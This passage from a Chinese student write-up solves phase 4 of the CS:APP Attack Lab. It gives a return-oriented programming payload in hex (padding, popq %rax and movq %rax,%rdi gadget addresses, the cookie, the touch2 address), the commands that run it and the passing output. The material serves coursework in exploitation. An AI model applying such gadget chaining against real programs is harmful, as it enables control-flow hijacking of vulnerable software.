 事实上直到行文至此，我才彻底找到了之前没能成功在 farm 中找到想要的 gadget 的原因：**不加 `-Og` 直接编译 `farm.c`（默认 `-O0`） 再反编译出来的字节码和直接反编译 `rtarget.c` 得到的的不一样！！！**

![Cleanshot-2023-10-18-at-12.00.02@2x](https://cdn.arthals.ink/bed/2024/01/Cleanshot-2023-10-18-at-12.00.02@2x-e49385ffd6fdfde52ce3132aa457139a.png)

不过已经到这里了，那就先不修改了，反正我幸运地找到了一个固定地址的 gadget~

修改 `p4.txt` 如下，加入第 6 行即可

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
13 39 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
44 22 40 00 00 00 00 00
a8 1e 40 00 00 00 00 00
```

运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

~~大功告成！~~

```text
Cookie: 0x11a67610
Touch2!: You called touch2(0x11a67610)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

告不了一点，发现得到的是 0.0 的分数，说明越界的 gadget 在远程服务器上无法得分，于是询问大佬，发现之前的过程中忘了可以插入 `0x90` 作为 nop，于是再次以正则表达式检索：

```text
5[89a-f] (90 )+c3
```

成功找到一个新地址 `0x4021bc`，可以实现 `popq %rax`

```text
00000000004021b4 <addval_168>:
f3 0f 1e fa 8d 87 0d 92 58 90 c3
```

同时，我们还需要 `movq %rax %rdi` 或者 `movl %eax %edi`，查表对应 `48 89 c7`，检查得到第二个地址：`0x4021a4`

```text
000000000040219e <setval_337>:
f3 0f 1e fa c7 07 48 89 c7 c3 c3
```

修改 `p4.txt` 如下：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bc 21 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
a4 21 40 00 00 00 00 00
a8 1e 40 00 00 00 00 00
```
